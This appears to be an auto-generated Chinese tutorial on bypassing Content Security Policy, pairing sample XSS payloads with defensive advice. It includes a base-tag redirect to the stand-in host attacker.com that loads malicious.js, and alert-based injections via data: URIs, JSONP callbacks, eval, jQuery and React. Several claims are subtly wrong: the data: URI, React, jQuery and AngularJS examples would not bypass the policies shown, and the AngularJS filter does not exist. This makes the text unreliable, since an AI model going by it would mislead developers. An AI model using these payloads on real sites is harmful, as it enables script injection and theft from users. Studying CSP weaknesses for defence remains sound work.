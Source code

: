 # CSP策略绕过技术

## 1. 概述

### 1.1 什么是CSP？
内容安全策略（Content Security Policy，CSP）是一种用于减轻跨站脚本攻击（XSS）和其他内容注入攻击的安全机制。CSP通过定义一组策略指令，限制浏览器加载和执行资源的来源，从而减少攻击面。

### 1.2 CSP的作用
CSP的主要作用是：
- 防止XSS攻击
- 限制资源加载（如脚本、样式表、图片等）
- 控制内联脚本和eval的使用
- 报告策略违规行为

### 1.3 CSP策略绕过
尽管CSP提供了强大的安全防护，但在某些情况下，攻击者仍可能通过特定的技术手段绕过CSP策略。本文将深入探讨CSP策略绕过技术，帮助安全从业人员更好地理解和防御此类攻击。

## 2. CSP策略绕过原理

### 2.1 CSP策略的局限性
CSP策略的绕过通常源于以下原因：
- 策略配置不当
- 浏览器实现差异
- 动态内容注入
- 第三方库漏洞

### 2.2 绕过技术分类
CSP策略绕过技术可以分为以下几类：
1. **策略配置不当**：由于CSP配置错误或不完整，导致攻击者能够利用漏洞。
2. **浏览器特性利用**：利用浏览器对CSP的实现差异或特定功能进行绕过。
3. **动态内容注入**：通过动态生成或修改内容，绕过CSP的限制。
4. **第三方库漏洞**：利用第三方库的漏洞或特性，绕过CSP策略。

## 3. CSP策略绕过技术详解

### 3.1 策略配置不当

#### 3.1.1 宽松的`script-src`指令
如果CSP策略中`script-src`指令配置过于宽松，攻击者可能利用以下方式绕过：
```http
Content-Security-Policy: script-src 'self' https://example.com;
```
攻击者可以通过在`https://example.com`上托管恶意脚本，绕过CSP限制。

#### 3.1.2 缺失`base-uri`指令
如果CSP策略中缺少`base-uri`指令，攻击者可能通过修改`<base>`标签的`href`属性，改变相对URL的解析方式，从而加载恶意资源。
```html
<base href="https://attacker.com/">
<script src="malicious.js"></script>
```

### 3.2 浏览器特性利用

#### 3.2.1 `data:` URI绕过
某些浏览器允许通过`data:` URI加载脚本，如果CSP策略未明确禁止`data:` URI，攻击者可以利用此特性绕过CSP。
```http
Content-Security-Policy: script-src 'self';
```
```html
<script src="data:text/javascript,alert('XSS')"></script>
```

#### 3.2.2 `jsonp`回调绕过
如果CSP策略允许加载来自特定域的脚本，攻击者可能利用JSONP（JSON with Padding）回调函数执行恶意代码。
```http
Content-Security-Policy: script-src https://example.com;
```
```html
<script src="https://example.com/jsonp?callback=alert('XSS')"></script>
```

### 3.3 动态内容注入

#### 3.3.1 AngularJS沙箱绕过
在AngularJS应用中，如果CSP策略未正确配置，攻击者可能通过AngularJS的表达式注入绕过CSP。
```http
Content-Security-Policy: script-src 'self' 'unsafe-eval';
```
```html
<div ng-app>
  {{ 'alert("XSS")' | angular }}
</div>
```

#### 3.3.2 `eval`函数绕过
如果CSP策略允许`unsafe-eval`，攻击者可以通过`eval`函数执行动态生成的恶意代码。
```http
Content-Security-Policy: script-src 'self' 'unsafe-eval';
```
```javascript
eval('alert("XSS")');
```

### 3.4 第三方库漏洞

#### 3.4.1 jQuery选择器绕过
某些版本的jQuery库存在选择器漏洞，攻击者可以通过构造特定的选择器绕过CSP。
```http
Content-Security-Policy: script-src 'self' https://code.jquery.com;
```
```javascript
$('<img src=x onerror=alert("XSS")>');
```

#### 3.4.2 React XSS绕过
在React应用中，如果未正确处理用户输入，攻击者可能通过JSX注入绕过CSP。
```http
Content-Security-Policy: script-src 'self';
```
```javascript
const userInput = '<img src=x onerror=alert("XSS")>';
ReactDOM.render(userInput, document.getElementById('root'));
```

## 4. 防御思路和建议

### 4.1 严格配置CSP策略
- 使用`default-src`指令作为默认策略，确保所有资源类型都受到限制。
- 避免使用`unsafe-inline`和`unsafe-eval`，除非绝对必要。
- 明确指定`script-src`、`style-src`等指令，避免使用通配符。

### 4.2 监控和报告
- 启用CSP报告功能，监控策略违规行为。
- 定期审查CSP报告，及时发现和修复潜在漏洞。

### 4.3 安全编码实践
- 避免使用`eval`和`new Function`等动态执行代码的方式。
- 对用户输入进行严格的验证和过滤，防止XSS攻击。

### 4.4 第三方库管理
- 定期更新第三方库，修复已知漏洞。
- 使用子资源完整性（SRI）确保加载的第三方资源未被篡改。

### 4.5 浏览器兼容性
- 测试CSP策略在不同浏览器中的兼容性，确保策略在所有目标浏览器中有效。
- 关注浏览器安全更新，及时调整CSP策略以适应新的安全特性。

## 5. 总结

CSP策略绕过技术是Web安全领域的一个重要课题。通过深入理解CSP策略的局限性及绕过技术，安全从业人员可以更好地配置和管理CSP策略，有效防御XSS和其他内容注入攻击。同时，结合严格的安全编码实践和第三方库管理，可以进一步提升Web应用的安全性。

希望本文能为中高级安全从业人员提供有价值的参考，帮助他们在实际工作中更好地应对CSP策略绕过挑战。

---

*文档生成时间: 2025-03-11 15:49:49*
